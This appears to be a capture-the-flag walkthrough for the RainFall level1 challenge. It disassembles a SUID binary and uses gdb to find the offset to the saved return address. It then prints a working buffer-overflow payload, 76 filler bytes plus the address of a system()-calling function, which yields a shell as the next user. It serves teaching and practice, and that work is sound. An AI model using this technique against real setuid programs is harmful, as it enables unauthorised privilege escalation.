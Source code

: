### Description

Like last exercice we found a binary in home with the suid  execution bit set so we will probably have exploit the binary to get access to the shell or to the pass through it

So we will disassemble the program using objdump to have it in full

```sh
level1@RainFall:~$ objdump -d ./level1 
```

We can find 2 interesting element

first there is an unprotected input in the main: `gets` will try to write a string of any length to the stack.

- We can exploit the stack by overwriting the return adress of the stack base pointer. 

- By scrolling through the program's function we notice a function name run that actually launch a call to `system` function

```as
08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp

[...]

 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret    
```

---

- running gdb we can observe the stack with:
`(gdb) x/100x $sp`


- We can also have information on stack frame with:
```as
(gdb) info frame
Stack level 0, frame at 0xbffff730:
 eip = 0x8048495 in main; saved eip 0x64636261
 Arglist at 0xbffff728, args: 
 Locals at 0xbffff728, Previous frame's sp is 0xbffff730
 Saved registers:
  ebp at 0xbffff728, eip at 0xbffff72c
```
- **Notice we got the current stack frame and the previous one in `saved eip 0x64636261`**

- We can stop the execution of the program right after the gets using the break "b \*0x8048495". it is right after the return of the gets function meaning we can observe the start of the string copied on the stack and calculate the offset to the saved eip (it is the address of the return function)

```bash
Starting program: /home/user/level1/level1 
aaaa

Breakpoint 1, 0x08048495 in main ()
(gdb) x/40x $sp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x61616161	0x08049700	0x00000001	0x08048321
0xbffff700:	0xb7fd13e4	0x00000016	0x0804978c	0x080484c1
0xbffff710:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff720:	0xb7fed280	0x00000000	0x080484a9	0xb7fd0ff4
0xbffff730:	0x080484a0	0x00000000	0x00000000	0xb7e454d3
0xbffff740:	0x00000001	0xbffff7d4	0xbffff7dc	0xb7fdc858
0xbffff750:	0x00000000	0xbffff71c	0xbffff7dc	0x00000000
0xbffff760:	0x08048230	0xb7fd0ff4	0x00000000	0x00000000
0xbffff770:	0x00000000	0xc319e73d	0xf45e432d	0x00000000
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args: 
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) 
```

- we calculated that there is a distance of 80 Byte between start of input and saved *eip* meaning we need to input 76 Byte of filling string and then address of `run` function (make attention to endianess of system)



- We going to overwrite the return of main function to jump on the `run` function


```
level1@RainFall:~$ (python -c 'print ("A" * 76 + "\x44\x84\x04\x08")'; cat) | ./level1
Good... Wait what?
whoami
level2
```
